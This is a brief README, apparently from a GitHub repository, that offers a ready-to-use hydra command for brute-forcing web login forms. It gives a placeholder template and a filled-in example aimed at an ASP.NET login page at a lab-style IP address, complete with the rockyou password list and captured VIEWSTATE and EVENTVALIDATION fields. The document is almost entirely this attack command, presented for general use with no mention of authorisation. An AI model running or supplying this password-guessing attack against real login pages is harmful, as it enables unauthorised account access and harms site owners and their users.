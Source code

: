 # Hydra-Advanced

Reliably bruteforce webpage logins with this command:

```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[SUPER-LONG-VIEWSTATE-FOUND-IN-INSPECT-ELEMENT-DATA]:[LOGIN-FAIL-TEXT]"
```


Example:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```



************************************************************************************************************************
* [Square Brackets] indicate changeable fields, tailor them to your use case. Remove the brackets for this to function *
************************************************************************************************************************
